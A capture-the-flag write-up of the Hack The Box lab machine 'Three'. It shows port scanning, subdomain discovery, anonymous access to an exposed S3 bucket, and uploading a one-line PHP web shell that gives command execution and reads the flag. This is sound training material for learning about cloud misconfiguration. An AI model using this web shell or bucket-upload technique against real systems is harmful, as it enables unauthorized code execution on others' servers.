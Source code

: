 # HTB Starting Point – Three 

> Difficulty: Very Easy  
> OS: Linux  
> Focus: Cloud misconfiguration, AWS S3, file upload → RCE

---

 Overview

"Three" is a beginner-friendly Hack The Box machine that teaches how poor cloud storage configurations (S3 buckets) can lead to remote code execution.

The machine includes:
- A main domain (`thetoppers.htb`)
- A hidden subdomain (`s3.thetoppers.htb`)
- An AWS S3-backed web server
- A vulnerable PHP setup that lets us upload and execute code

---

 Recon

 Nmap Scan

```bash
nmap -sV -p- 10.129.227.248

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4
80/tcp open  http    Apache httpd 2.4.29
 /etc/hosts

10.129.227.248 thetoppers.htb
Web Enumeration
Visiting http://thetoppers.htb shows a static concert-themed page.

Viewing the HTML reveals an email domain @thetoppers.htb, suggesting a real vhost.

Subdomain Discovery

gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
Found:

Copy
Edit
s3.thetoppers.htb
Update /etc/hosts:


10.129.227.248 s3.thetoppers.htb
 AWS S3 Bucket Interaction
Installed:

sudo apt install awscli
Setup (using fake creds — not validated):

aws configure
 List available buckets:

aws s3 ls --endpoint-url http://s3.thetoppers.htb --no-sign-request
Found:

Copy
Edit
thetoppers.htb
 List contents:

aws s3 ls s3://thetoppers.htb --endpoint-url http://s3.thetoppers.htb --no-sign-request
Found:

index.php
.htaccess
images/
 Exploitation – Web Shell Upload
 Created webshell:
php

<?php system($_GET["cmd"]); ?>

echo '<?php system($_GET["cmd"]); ?>' > shell.php
Uploaded to S3:

aws s3 cp shell.php s3://thetoppers.htb --endpoint-url http://s3.thetoppers.htb --no-sign-request
✅ It got written into the web root.

 Code Execution
Tested shell:

curl "http://thetoppers.htb/shell.php?cmd=id"
Output:

uid=33(www-data) gid=33(www-data) groups=33(www-data)
🎯 Flag Capture
Tried:

curl "http://thetoppers.htb/shell.php?cmd=cat /var/www/flag.txt"
Flag retrieved without needing privilege escalation.

proof of pwn - https://labs.hackthebox.com/achievement/machine/2424577/489

✅ Takeaways
Misconfigured AWS S3 buckets can lead to full webroot control.

Even basic PHP shells are powerful in a file-write scenario.

This machine reinforces cloud + web + file upload exploitation.

